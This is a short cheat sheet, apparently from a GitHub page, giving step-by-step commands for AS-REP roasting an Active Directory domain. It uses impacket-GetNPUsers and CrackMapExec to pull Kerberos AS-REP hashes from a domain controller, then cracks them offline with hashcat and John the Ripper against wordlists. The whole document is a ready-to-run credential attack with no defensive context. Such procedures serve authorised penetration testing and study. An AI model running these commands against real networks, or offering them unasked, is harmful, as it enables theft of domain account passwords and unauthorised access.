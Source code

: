 ### **USING IMPACKET GETNPUSERS.PY**

1.  Update the package list:  
    `sudo apt-get update`
2.  Install Impacket:  
    `sudo apt-get install python3-impacket`
3.  Enumerate Accounts:  
    `impacket-GetNPUsers -dc-ip [IP_ADDRESS] example.local/ -usersfile users.txt -no-pass -outputfile asrep_hashes.txt`
4.  Crack AS-REP Hashes using Hashcat:  
    `hashcat -m 18200 -a 0 asrep_hashes.txt /usr/share/wordlists/rockyou.txt`
5.  Crack AS-REP Hashes using John the Ripper:  
    `john --format=krb5asrep --wordlist=wordlist.txt asrep_hashes.txt`

### **USING CRACKMAPEXEC**

1.  Enumerate Accounts and Retrieve AS-REP Hashes:  
    `crackmapexec smb [IP_ADDRESS] -u users.txt --asreproast asrep_hashes.txt`
